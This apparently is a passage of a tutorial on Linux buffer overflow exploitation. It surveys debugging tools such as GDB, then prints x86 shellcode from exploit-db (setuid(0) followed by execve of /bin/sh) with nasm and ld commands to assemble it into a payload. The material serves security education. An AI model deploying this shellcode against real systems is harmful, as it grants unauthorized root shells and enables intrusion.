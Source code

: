 ## Debugging tools and how to use them.

If we have some program and we want to make research to analysis if we can perform buffer overflow on it, we must run some debugging tool that help us for understand how the program work and identified if we can overflow it, also after we have found that program is vulnerable, the full operation to make code the abuse the program for buffer overflow are done side by side with that debugging tool.

We can find several debugging tool, since we talk about linux, we going to check the debugging tool that fit for linux. In our case we going to use GDB (GNU Debugger), but also you can use another tools, for example, EDB, IDE Pro, Valgrind, strace, ltrace, gdbserver, perf, rr (Mozilla's Record and Replay), Various strace and ltrace GUIs (Graphical User Interfaces).

Also, you can find **Ghidra** which can help a lot on reverse some binary and understand the code, but we will talk about it on another post.

Before we going to dive into the first code, on the follows examples we going to use some shellcode, so we will create buffer overflow and run our malicious code so we should get back new shell from our execution.

The following shell code I found over exploit db, which is 13333.txt:
```
https://github.com/blackorbird/exploit-database/blob/master/shellcodes/lin_x86/13333.txt
```

First we going to compile that code and make some binary files of it, after that we will create hex values so we can use it as the malicious part on our buffer overflow.

The original code look like the following:
```
;shellcode.asm
global _start
section .text
_start:
  ;setuid(0)
  xor ebx,ebx
  lea eax,[ebx+17h]
  cdq
  int 80h
  ;execve("/bin/sh",0,0)
  xor ecx,ecx
  push ecx
  push 0x68732f6e
  push 0x69622f2f
  lea eax,[ecx+0Bh]
  mov ebx,esp
  int 80h
```

That code should be save as shellcode.asm, then we use the following code for change it's format to elf file so we can make it as binary file:
```
nasm -f elf32 -o shellcode.o shellcode.asm
```

Now, we going to links the object file "shellcode.o" into an executable binary named "shellcode" using the GNU Linker. The resulting binary is a 32-bit ELF executable that can be executed on a compatible system.
```
ld -m elf_i386 -o shellcode shellcode.o
```
